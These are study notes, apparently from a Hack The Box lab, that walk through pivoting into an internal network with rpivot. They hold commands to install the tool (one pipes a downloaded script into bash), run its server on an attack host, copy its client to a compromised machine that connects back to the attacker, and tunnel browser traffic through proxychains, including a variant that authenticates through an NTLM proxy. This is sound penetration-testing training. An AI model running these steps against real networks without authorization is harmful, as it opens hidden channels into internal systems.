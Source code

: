 # Web Server Pivoting with Rpivot


![[Pasted image 20250531022714.png]]

#### Cloning rpivot

```bash
Yashfren@htb[/htb]$ git clone https://github.com/klsecservices/rpivot.git
```
#### Installing Python2.7

```bash
Yashfren@htb[/htb]$ sudo apt-get install python2.7
```
#### Alternative Installation of Python2.7

```bash
Yashfren@htb[/htb]$ curl https://pyenv.run | bash
Yashfren@htb[/htb]$ echo 'export PYENV_ROOT="$HOME/.pyenv"' >> ~/.bashrc
Yashfren@htb[/htb]$ echo 'command -v pyenv >/dev/null || export PATH="$PYENV_ROOT/bin:$PATH"' >> ~/.bashrc
Yashfren@htb[/htb]$ echo 'eval "$(pyenv init -)"' >> ~/.bashrc
Yashfren@htb[/htb]$ source ~/.bashrc
Yashfren@htb[/htb]$ pyenv install 2.7
Yashfren@htb[/htb]$ pyenv shell 2.7
```
#### Running server.py from the Attack Host

```bash
Yashfren@htb[/htb]$ python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

Before running `client.py` we will need to transfer rpivot to the target. We can do this using this SCP command:
#### Transfering rpivot to the Target

```bash
Yashfren@htb[/htb]$ scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```
#### Running client.py from Pivot Target

```bash
ubuntu@WEB01:~/rpivot$ python2.7 client.py --server-ip 10.10.14.18 --server-port 9999

Backconnecting to server 10.10.14.18 port 9999
```
#### Confirming Connection is Established

```bash
New connection from host 10.129.202.64, source port 35226
```

We will configure proxychains to pivot over our local server on 127.0.0.1:9050 on our attack host, which was initially started by the Python server.

Finally, we should be able to access the webserver on our server-side, which is hosted on the internal network of 172.16.5.0/23 at 172.16.5.135:80 using proxychains and Firefox.
#### Browsing to the Target Webserver using Proxychains

```bash
proxychains firefox-esr 172.16.5.135:80
```

Similar to the pivot proxy above, there could be scenarios when we cannot directly pivot to an external server (attack host) on the cloud. Some organizations have [HTTP-proxy with NTLM authentication](https://docs.microsoft.com/en-us/openspecs/office_protocols/ms-grvhenc/b9e676e7-e787-4020-9840-7cfe7c76044a) configured with the Domain Controller. In such cases, we can provide an additional NTLM authentication option to rpivot to authenticate via the NTLM proxy by providing a username and password. In these cases, we could use rpivot's client.py in the following way:
#### Connecting to a Web Server using HTTP-Proxy & NTLM Auth

```bash
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```